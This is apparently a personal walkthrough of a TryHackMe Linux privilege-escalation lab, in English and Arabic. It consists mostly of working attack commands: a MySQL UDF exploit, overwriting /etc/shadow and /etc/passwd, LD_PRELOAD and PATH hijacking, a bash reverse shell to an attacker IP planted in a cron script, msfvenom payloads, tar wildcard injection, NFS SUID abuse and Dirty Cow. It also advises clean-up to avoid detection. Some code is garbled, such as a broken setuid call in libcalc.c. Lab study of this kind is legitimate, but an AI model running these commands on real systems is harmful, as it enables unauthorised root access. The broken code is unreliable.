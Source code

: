 # Linux PrivEsc

![image](https://github.com/user-attachments/assets/b1fe0a80-97d4-4951-9e6b-885165fc33a5)

[tryhackme_Linux PrivEsc](https://tryhackme.com/room/linuxprivesc?ref=blog.tryhackme.com)


<details>
  <summary>Service Exploits</summary>

## Linux Privilege Escalation via MySQL UDF Exploit

### 🎯 Goal

Gain **root shell access** by exploiting a misconfigured MySQL service (running as root with no password) using a **User Defined Function (UDF)**.

---

### 🔹 Overview

* MySQL is running **as root**.
* The **"root" MySQL user has no password**.
* We'll use a known exploit (`raptor_udf2.c`) to create a MySQL function that executes **system commands as root**.

---

### 🧪 Step-by-Step Instructions

#### 1. 🔧 Go to the exploit directory:

```bash
cd /home/user/tools/mysql-udf
```

#### 2. ⚙️ Compile the UDF exploit code:

```bash
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

* This compiles the `.c` code into a shared object `.so` file.
* `-fPIC` and `-shared` are necessary to load it as a library into MySQL.

#### 3. 🛠️ Connect to MySQL as root (no password):

```bash
mysql -u root
```

#### 4. 📦 Create the custom function in MySQL:

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

* This loads the `.so` file as a **MySQL plugin**.
* It creates a **new function `do_system()`** that can execute system commands.

#### 5. 🧨 Use the function to gain a root shell:

```sql
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

* Copies `/bin/bash` to `/tmp/rootbash`.
* Sets SUID bit so it runs **with root privileges**.

#### 6. 🚪 Exit MySQL and run root shell:

```bash
exit
/tmp/rootbash -p
```

* `-p` allows bash to run as the **effective UID 0 (root)**.

#### 7. 🧹 Clean Up

```bash
rm /tmp/rootbash
exit
```

* Delete the SUID binary.
* Exit root shell to avoid detection.

---

### ✅ Summary

| Step | Action                                           |
| ---- | ------------------------------------------------ |
| 1    | Compile UDF exploit into `.so` file              |
| 2    | Connect to MySQL (no password)                   |
| 3    | Inject `.so` into MySQL plugin path              |
| 4    | Create and use `do_system()` to copy + SUID bash |
| 5    | Run bash with `-p` for root shell                |
| 6    | Remove `/tmp/rootbash` and exit                  |

🔐 **Always clean up and remove root shells after testing!**

---

🛡️ **Note:** This method only works if:

* MySQL runs as root
* You can connect as root (no password)
* You can write to plugin directory (`/usr/lib/mysql/plugin`)

Used responsibly, this is a great example of **local privilege escalation** via a poorly configured MySQL setup.

  
</details>




<details>
  <summary>Weak File Permissions</summary>

* <details>
    <summary>Readable /etc/shadow</summary>

    ### 1. Readable /etc/shadow (يمكن قراءته)

    * `ls -l /etc/shadow`
        * `-rw-r----- root shadow /etc/shadow` (أي يمكن قرائته)

    * `cat /etc/shadow`
    * (كل اليوزرات بالباسورد تبعها متهاش Hash)

    * **To know type of hash**
        * `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
    * (يكسر ال hash و يقولك على نوعه)
    
  </details>

* <details>
  <summary>Writable /etc/shadow</summary>

   ### 2. Writable /etc/shadow (يمكن الكتابة)

   * (لو الملف ده ينفع تكتب فيه هتمسح الباسورد بتاع ال root user أو admin user وتحط مكانه باسورد من عندك)

   * `mkpasswd -m sha-512 newpassword`    (ممكن تعمل باسورد بالامر ده)
      

   * `su root`
    * (ادخل الباسورد الجديد)
    * !!!مبروك
  
  </details>



* <details>
     <summary>Writable /etc/passwd</summary>

    ### 3. Writable /etc/passwd (يمكن الكتابة)

   * `openssl passwd frank`
    * (لعمل باسورد جديد)
       * `$1$aBcDeF$gH...`

   * `nano /etc/passwd`
       * `root:x:0:0:root:/root:/bin/bash` (remove `x`)
       * Becomes -> `root::0:0:root:/root:/bin/bash` (الباسورد الان فاضي)
       * `root:$1$aBcDeF$gH...:0:0:root:/root:/bin/bash` ( اكتب الباسورد اللى انت عملته مكان ال `x`)

   * `su root`
    * (اكتب الباسورد الجديد و مبروك عليك!!!)


  </details>




  
</details>



<details>
  <summary>Sudo</summary>


* <details>
     <summary>Shell Escape Sequences</summary>

    * `sudo -l`
    * (عرض الأوامر التي يمكن تشغيلها باستخدام Sudo بدون الحاجه لادخال كلمه مرور)
  

    * **`gtfobins.github.io`**
    * (البحث في gtfobins عن أوامر قابلة للاستغلال)

     
  </details>


* <details>
     <summary>Environment Variables</summary>

   * **Environment Variables:** `(LD_LIBRARY_PATH - LD_PRELOAD)`
    * (يمكن نستغل الـ Environment variables دي)
    * **شرح بسيط:** (عشان أي برنامج يعمل لابد يحتاج الى تحميل مكتبات مشتركه لتنفيذ وظائف معينه أماكن هذه المكتبات `Lib` أو `/usr/lib`)
    * (هذه المتغيرات تتحكم في كيف وأين يبحث البرنامج عن مكتبات نقدر نستغلها علشان نوصل بيها للـ root)


    >[!warning] ⚠️⚠️
    >
    > لو عملنا مكتبه تحتوى على كود خبيث (مثلا كود بيفتح `root shell`)
    >
    > وجعلنا **_`LD_PRELOAD`_** يشير اليها فان :
    >
    > اى برنامج يتم تشغيله بصلاحيات ال ``SUDO`` هيقوم اولا بتحميل المكتبه الخبيثه التى انشاناها مم يعطيك صلاحيات ``ROOT``



   This method works if `LD_LIBRARY_PATH` is inherited. It tells a program to look for shared libraries in a specified directory first, allowing you to hijack a library call.

   1.  **Find a target library:**
       * Use `ldd` to see which shared libraries a program uses.

       ```bash
       ldd /usr/sbin/apache2
       ```

   2.  **Create a malicious shared object:**
       * Compile the C code from `/home/user/tools/sudo/library_path.c`.
       * **Crucially, name the output file the same as one of the libraries used by the target program** (e.g., `libcrypt.so.1`).

       ```bash
       gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
       ```

    3.  **Run the program with `LD_LIBRARY_PATH`:**
        * Execute the program using sudo, setting `LD_LIBRARY_PATH` to the directory containing your malicious library (`/tmp`).

        ```bash
        sudo LD_LIBRARY_PATH=/tmp apache2
        ```
  
    * This should also spawn a root shell because the program loads your malicious `libcrypt.so.1` instead of the real one.

   #### **Further thought / exercise:**

   * Try renaming `/tmp/libcrypt.so.1` to the name of another library used by `apache2` and re-run the exploit. Does it still work? If not, why? How would the        `library_path.c` code need to be changed to make it work with a different library?



  </details>

  
</details>


 



<details>
  <summary>Cron Jobs</summary>


* <details>
     <summary>File Permissions</summary>


    # Cron Jobs - File Permissions (Crontab)

   ### 5) Cron Jobs - File Permissions

   * **Cron Job** هو مهمه مجدوله مع تشغيلها تلقائيا في أوقات محدده
    * الملف اللي فيه المهام المجدوله -> `/etc/crontab`

   ---

   **ex:**

   * `cat /etc/crontab`
    * وجدنا أن الملف ده -> `overwrite.sh`
    * الآن نريد تحديد مكانه

   * `locate overwrite.sh`
       * `/usr/local/bin/overwrite.sh`
    * لاقيناه وهنلاحظ انه قابل للتعديل


   * `nano /usr/local/bin/overwrite.sh`
       * `#!/bin/bash`
       * `bash -i >& /dev/tcp/10.0.47.102/4444 0>&1` the ip of ``tun0``
   
    * هنستبدل محتوى الملف بالكود ده
    * الكود ده بيخلى جهاز الضحيه يتصل بنا عن طريق ``NetCat`` على منفذ ``4444``
    * وبعدين نحفظ الملف ونتاكد انه قابل للتنفيذ ``chmod +x``
  

   * `nc -nvlp 4444`
    * ( الآن بنقوم بالإستماع على ال port 4444 )

   * بمجرد ما الملف يخلص شغله هتكون راجعلنا بالجهاز
   * بصلاحية Root عن طريق -> **Reverse Shell**

   * `whoami` 
       * `root`
    * مبروك

     
   </details>



* <details>
     <summary>PATH Environment Variable</summary>


   # Cron Jobs - PATH Environment Variable

   (overwrite.sh لو مينفعش تكتب جواه)

   ### 6) Cron Jobs - PATH Environment variable

   * هنا بنستغل اعدادات الـ PATH الخاصة بالـ Cron Jobs للوصول على صلاحيات الـ `root`

   * `cat /etc/crontab`
       * `PATH=/home/user:/usr/local/sbin:/...`
       * هنا في مشكله هو بيبحث عن الملفات المجدوله زى overwrite.sh
       * لكن بيبدأ البحث في `/home/user` والملف الاصى موجود فى `/usr/local/bin`
       * ده معناه إن لو عملنا ملف بنفس الاسم
       * في `/home/user` وكتبنا فيه كود خبيث يخلينا نحصل صلاحيات `root`

   * `nano /home/user/overwrite.sh`
       * `#!/bin/bash`
       * `cp /bin/bash /tmp/rootbash`
       * `chmod +s /tmp/rootbash`
       * الكود ده بينقل ال ``bash`` ل ``/tmp/rootbash`` وده ملف احنا عملناهو بعد كده يديلو صلاحيات ``SUID``
       * اى ان المستخدم يمكنه تشغيل ``BASH`` بصلاحيات ``root``
    

   * `chmod +x /home/user/overwrite.sh`
       * نخلي الملف قابل للتنفيذ
       * الآن عند تشغيل الـ cron الملف هيتنفذ ما يؤدي الى
       * إنشاء `rootbash` في `/tmp/`

   * `/tmp/rootbash -p`
       * الأمر ده هيخلي `bash` يحتفظ بصلاحيات ال `root`
       * من بعد تشغيله من قبل مستخدم عادي

   * `whoami`
       * `root`


   > ### ليه استخدمنا ``/tmp`` لتخزين الملف
   >
   - > عشان ده مجلد عام يمكن لاى مستخدم يكتب فيه لذا يمكنك انشاء ملفات بدون صلاحيات
   - > معظم الانظمه تمسح الملفات داخل ``/tmp`` تلقائيا عند اعاده التشغيل مما يساعد فى اخفاء الادله بعد الهجوم

     
   </details>



* <details>
     <summary>Wildcards</summary>

   # Cron Jobs - Wildcards

   (مثلا الملف المجدول ده هي `compress.sh`)
   (`` * `` بتنفذ الاوامر على كل الملفات)

   ### 7) Cron Jobs - WildCards

   * استغلال `tar` الذي يعمل داخل المهمة المجدولة للوصول لصلاحيات `root`. وبما ان الأمر `tar` يتم تشغيله باستخدام `*` فسوف نضيف ملفات أسماءها شبيهه لأوامر `tar` ما يمكننا من عمل Reverse Shell والتحكم بالجهاز.

   * `cat /usr/local/bin/compress.sh`
       * `cd /home/user`
       * `tar czf /tmp/backup.tar.gz *` -> (هينفذ كل الاوامر اللي هنا و يوديها ``/tmp``)

   * `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.47.102 LPORT=4444 -f elf -o shell.elf`
       * (على جهازنا، نعمل `shell` عن طريق `msfvenom` باستخدام `shell` لـ linux)

   * `scp shell.elf user@10.10.242.228:/home/user`
       * (بنقوم بنقل الملف لجهاز الضحية)

   * `chmod +x /home/user/shell.elf`
       * (نجعل الملف قابل للتنفيذ)

   * `touch /home/user/--checkpoint=1`
   * `touch /home/user/--checkpoint-action=exec=./shell.elf`

   * `nc -nvlp 4444`
       * (والاستماع على `port 4444` من أجل الحصول على `shell`)

   * `whoami` or `id`
       * `root`



   > ### لماذا ``tar`` كان قابل للاستغلال ؟
   >
   > لان ``tar`` يرى ملفات تحمل اسماء مشابهه لخيارات سطر الاوامر ``--checkpoint=1`` يعتبرها كانها
   > خيارات فعليه او اوامر وليست مجرد اسماء ملفات
   >
   > ### هل يمكن تنفيذ نفس الاستغلال على برامج اخرى ؟
   >
   > نعم مثل :
   >
   > rsync , find , cp , mv , gzip , sort , grep , awk
   >
   > ستجد استغلالهم على gtfobins.io 


     
</details>
  
</details>





<details>
  <summary>SUID / SGID Executables</summary>

* <details>
     <summary>Known Exploits</summary>

   # SUID/SGID Executables - Known Exploits

   ### 8) SUID/SGID Executables - known exploits

   * استغلال البرامج التي تعمل بصلاحيات SUID أو SGID للحصول على صلاحيات الـ `root`.

   * `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
       * البحث عن ملفات تحمل صلاحيات SUID أو SGID.
       * Example found: `/usr/sbin/exim-4.84-3`

   * search on ``exploitDB`` about **_exim-4.84-3_**
       * on this room Found exploit code at: `/home/user/tools/suid/exim/cve.sh`
       * (هنا في كود الاستغلال اللي وجدناه لبرنامج exim)

   * `chmod +x /home/user/tools/suid/exim/cve.sh`

   * `whoami`
       * `root`
       * (مبروك)


  </details>


* <details>
     <summary>Shared Object Injection</summary>


   # SUID/SGID Executables - Shared Object Injection

   ### 9) SUID/SGID executables - Shared object injection

   * هنا ضمن الملفات التي وجدناها تحمل صلاحيات SUID SGID وجدنا الملف: `/usr/local/bin/suid-so`
   * عند محاولة تشغيله يقوم بالتحميل ولكن لا نعرف ماذا يحدث.

   * `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`
       * عرض العمليات التي يقوم بها الملف من قبل `strace` لفلترة العمليات التى تخص 
       * فتح ملفات او محاولات البحث عن ملفات غير موجوده
       * Example output showing a missing library: `/home/user/.config/libcalc.so`
       * (وجدنا أن الملف يحاول تحميل مكتبه مشفره ولكنه لا يجدها)

   * `mkdir /home/user/.config`
       * (المجلد الذى به الملف)

   * Create the malicious library file (`libcalc.c`):
       * (قم بعمل هذا الملف فى اى مسار على النظام)
       ```c
       #include <stdio.h>
       #include <stdlib.h>

       void _attribute_((constructor)) init() {
           setid(0);
           setلid(0);
           system("/bin/bash");
       }
       ```

   * `gcc -shared -fPIC -o /home/user/.config/libcalc.so ~/path/to/your/libcalc.c`
       * (تم تحويل الكود من الملف إلى مكتبه مشتركه وإرساله الى المسار المراد)

   * `/usr/local/bin/suid-so`
       * (تشغيل الملف مرة أخرى ولكن هذه المرة سوف يجد المكتبة المحقونة وتكون خبيثة)

   * `whoami`
       * `root`
       * (مبروك يا باشا)


  </details>


* <details>
     <summary>Environment Variables</summary>


   # SUID/SGID Executable - Environment Variables

   ### 10) SUID/SGID executable - Environment variables

   * ضمن الملفات التي وجدناها تحمل صلاحيات SUID/SGID وجدنا الملف: `/usr/local/bin/suid-env`
   * عند تشغيل الملف هنلاحظ إنه سيحاول تشغيل Apache2 بس من غير ما يتحددله مسار كامل لتشغيل هذه الخدمة
   * بـ `service apache2 start` (مسار غير كامل).
     * ده مثال للمسار الكامل ``/usr/sbin/servic apache2 atart``

   * `strings /usr/local/bin/suid-env`
       * This shows the program calls `service apache2 start`.

   * `gcc -o service /home/user/tools/service.c`
       * هنعمل ملف باسم `service` فيه كود خبيث مثل الأكواد الخبيثة السابقة ونستخدم `gcc` لإنشاء ملف تنفيذي.

   * `export PATH=.:$PATH/usr/local/bin/suid-env`
       * ولابد أن يبحث النظام في المسار الحالي (`.`) قبل المسارات الأخرى.
          * المسار الحالى ``/home/user``

   * Now run the SUID executable: `/usr/local/bin/suid-env`
       * It will execute your malicious `./service` file instead of the system's `service` command.

   * `whoami`
       * `root`



  </details>


* <details>
     <summary>Abusing Shell Features (#1)</summary>


   # SUID/SGID Abusing - ShellShock Partners #1

   ### 11) SUID/SGID Abusing - ShellShock Partners #1

   * استغلال ثغرة في إصدارات `Bash` قبل الـ `4.2-048` تكمن باسم `ShellShock Function import`. والتي تسمح للمهاجم بتعريف دالة `Bash` تحمل نفس اسم مسار، تنفيذ برنامج معين
   * ثم تصديرها بحيث تستخدم بدلا من البرنامج الاصلى عند استدعائه.
   * في الملف `/usr/local/bin/suid-env2` له نفس صلاحيات `suid/sgid` مثل الملف السابق لكن الفرق أنه بيشغل المسار كامل.

   * `/bin/bash --version`
       * Output might be something like `4.1.5` -> (إصدار Bash قديم)

   * Define a function with the same name as the command path:
       ```bash
       function /usr/sbin/service { /bin/bash -p; }
       ```

   * Export the function:
       ```bash
       export -f /usr/sbin/service
       ```
       * (هذا الكود سيقوم بتعريف دالة في `bash` تحمل اسم `/usr/sbin/service` و عند تشغيلها . تقوم بفتح `Bash Shell` بصلاحيات محفوظه (`-p`)
       * ثم تصدير الداله مما يجعلها تستخدم بدلا من استخدام ``/usr/sbin/service`` عند استدعاؤها)

   * Run the SUID executable:
       ```bash
       /usr/local/bin/suid-env-2
       ```
       * (تشغيل الملف الذي سيستدعي `service` الذي تم حقنه ليشغل `Bash Shell` ويأخذنا إلى صلاحيات `root`)

   * `whoami`
       * `root`
       * (مبروك!!!)



  </details>


* <details>
     <summary>Abusing Shell Features (#2)</summary>


   # SUID/SGID Executable - Abusing Shell #2

   ### 12) SUID/SGID executable - Abusing Shell #2

   * إستغلال أيضاً إصدارات `Bash` القديمة ولكن لتمكين وضع ال  `Debugging`.
   * و الاستفادة من متغير `PS4` لحقن أمر خبيث يمكن المستخدم من ترقية صلاحياته والحصول على `Root Shell`.

   * Run the SUID executable with custom environment variables:
       ```bash
       env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
       ```
       * (إنشاء نسخة من `Bash` بصلاحيات `Root` ما سيسمح للمهاجم بالحصول على `Root Shell`)

   * Execute the newly created SUID shell:
       ```bash
       /tmp/rootbash -p
       ```
       * (تشغيل الملف الذي أنشأناه بصلاحيات `Root` الذي يحافظ على الصلاحيات `p-`)



  </details>



  
</details>







<details>
  <summary>Passwords & Keys</summary>


* <details>
     <summary>History Files</summary>

   # Passwords & Key - History Files

   ### 13) Passwords & key - history files

   * ممكن يكون المستخدم قد كتب الباسورد بالخطأ وسط أوامر بدلاً من نافذة إدخال كلمة السر.

   * Check the user's history file for credentials:
       ```bash
       cat ~/.history | less
       ```

   * Example of a password found in the history:
       ```bash
       mysql -h somehost.local -u root -pPassword123
       ```

  </details>

* <details>
     <summary>Config Files</summary>

    # Passwords & Keys - Config Files

    ### 14) Passwords & keys - Config files

    * إستغلال وإعدادات الـ `Config files` التي تحتوي على ملفات حساسة.

    * Check a configuration file:
        ```bash
        cat /home/user/.myvpn.oven
        ```
        * The output might reference another file containing credentials: `auth-user-pass /etc/openvpn/auth.txt`
        * (وجدنا هذا المسار)

    * Read the file containing the credentials:
        ```bash
        cat /etc/openvpn/auth.txt
        ```
        * The output could be the username and password:
        ```
        root
        Password123
        ```
        * (مبروك عليك اليوزر والباسورد)

  </details>

* <details>
     <summary>SSH Keyss</summary>

   # Passwords & Keys - SSH Keys

   ### 15) Passwords & keys - SSH keys

   * `ls -la`
       * We found the `.ssh` directory.

   * `ls -l .ssh`
       * Inside, we find a private key, for example: `root_key`
       * (وجدنا الـ private key الخاص بالـ `root`. سنقوم بنقله على جهازنا الـ `kali` الخاص بنا داخل ملف `root-key`)

   * `chmod 600 root_key`
       * (هذا لجعل المفتاح مقروء فقط من قبل المستخدم الحالي مما يمنع `ssh` رفضه)

   * `ssh -i root_key root@10.10.19.152`
       * This logs you in as root.
       * `root#`
       * (مبروك عليك)


  </details>
  
</details>




<details>
  <summary>NFS</summary>


# NFS (Network File System)

### 16) NFS

* عند مشاركه ملف عبر NFS، يمكن للمستخدمين عن بعد إنشاء ملفات على النظام المستضيف وعادة ما يتم تشغيل `root_squashing` لمنح الشخص `root`. يمن امتلاك الملفات على النظام المضيف لكن هنا تم تعطيل هذه الميزه ``هذا الlab``

#### On the Server Machine

* Check the NFS share configuration:
    ```bash
    cat /etc/exports
    ```
    * Look for `no_root_squash` in the output, output for example: `/tmp *(rw,no_root_squashing)`

#### On the Client (Attacker) Machine

1.  **Mount the share:**  ``على جهازى``
    ```bash
    sudo su     
    mkdir /tmp/nfs
    mount -o rw,vers=3 <server_ip>:/tmp /tmp/nfs  #عنوان الماششين او ال lab
    ```
    * يتم ربط ``/tmp/nfs`` فى kali بمجلد ``/tmp`` على الخام او الماشيين 
    * أي ملف يتم إنشاؤه في `/tmp/nfs` على `kali` سيظهر مباشرة في `/tmp` على الخادم.
    *  وبما أن `no_root_squash` مفعل فإن أي ملف ينشئه `root` على `kali` سيحمل ملكية `root` على الخادم (machine)
    *  

1.  **Create a malicious payload:** ``on my device``
    ```bash
    msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
    ```
    * (إنشاء ملف خبيث ووضعه داخل `/tmp/nfs` والذي سيمكننا من عمل `shell` الذي سيعطينا صلاحيات `root` على الخادم)

2.  **Make the payload SUID and executable:** ``on my device``
    ```bash
    chmod +xs /tmp/nfs/shell.elf
    ```
    * (إعطاء الملف الصلاحية اللازمة ليكون `SUID` وجعله قابل للتنفيذ)

#### On the Server Machine

* **Execute the payload:** ``on server``
    ```bash
    /tmp/shell.elf
    ```
    * (تشغيل الملف الخبيث على الخادم)

* **Check your identity:**
    ```bash
    whoami
    ```
    * `root`
    * (مبروك)



> ## ما هو NFS (Network File System) ؟
>
- >  هو بروتوكول يسمح بمشاركه الملفات بين الاجهزه على الشبكه
- > يسمح يسمح للمستخدمسن بتركيب ``(mount)`` مجلدات من جهاز الى اخر كما لو كانت عليه

  # ``المشكله`` 
- > ال ``(root shquashing)`` هى ميزه امان فى ``NFS`` تمنح المستخدم ``ROOT`` على جهاز العميل من ان يكون ``ROOT`` على الخادم
- > عندما تكون هذه الميزه معطله  ``(no_root_squashing)`` فان ``ROOT`` على جهاز العميل يصبح ``ROOT`` على جهاز الخادم مما يسمح بعمل ``PRIVESC``
 
  
</details>





<details>
  <summary>Kernel Exploits</summary>


# Kernel Exploits - Dirty Cow

(Copy-on-write)

### 17) Kernal Exploits - (Dirty Cow)

* اختراق النظام عن طريق استغلال ل ثغره فى ``kernal`` وتحديدا ثغره ``dirty cow`` اللى هى ثغره تصعيد صلاحيات فى ``linux``

* Find potential exploits:
    ```bash
    perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
    ```
 
   * ده اسكربت مكتوب بلغه ``perl`` بيفحص النظام ويعرض قائمه بالثغرات الموجوده فى ال ``kernal`` بحيث تختار واحده منها وتستغلها

* **Exploit Details:**
    * **Vulnerability:** Dirty Cow
    * **CVE:** CVE-2016-5195
    * **Source:** `http://exploit-db.com/exploits/45697`

* **The exploit code**
    * ``/home/user/tools/kernel-exploits/dirtycow/c0w.c``
       * ده كود بيستغل هذه الثغره موجود عندنا على الماشيين بس فى الحياه الواقعيه هتكتبه او تجيبه جاهز
       * المهم ``cow`` هو ميكانزم او اليه بيستخدمها ال ``kernal`` لحمايه البيانات فى الذاكره
       * الكود ده بيستبدل ``/usr/bin/passwd`` المسؤول عن تغيير كلمات المرور بملف ``shell`` يمنح صلاحيات ``root`` و بيعمل نسخه احتياطيه ل ``/usr/bin/passwd``
       * فى ``/tm/bak`` عشان يرجعله بعد الاستغلال
         

* **Compile the exploit:**
    * `gcc -pthread /tools/kernal-exploit/DirtyCow/cow.c -o cow`
       * تحويل الكود لملف تنفيذى لاستخدامه لتنفيذ الثغره 
    

* **Run the exploit:**
    ```bash
    ./cow
    ```

    * تشغيل الملف.
    * الان قام باستبدال ``/usr/bin/passwd`` بملف ``shell``

* **Trigger the payload:**
    ```bash
    /usr/bin/passwd
    ```
    * (تشغيل الملف الآن بعدما استبدل `shell` بملف `/usr/bin/passwd`)

* **Check your identity:**
    ```bash
    whoami
    ```
    * `root`
    * (مبروك)

  
</details>




---

> [!important]
> ### privesc-scripts


* Linpeas.sh
* LinEnum.sh
* Lse.sh

---

### send ``scripts`` to server:

on folder that have ``Linpeas.sh``:

```
python3 -m http.server 8888
```

on server:

```
wget http://<tun0_IP>:8888/Linpeas.sh
```

















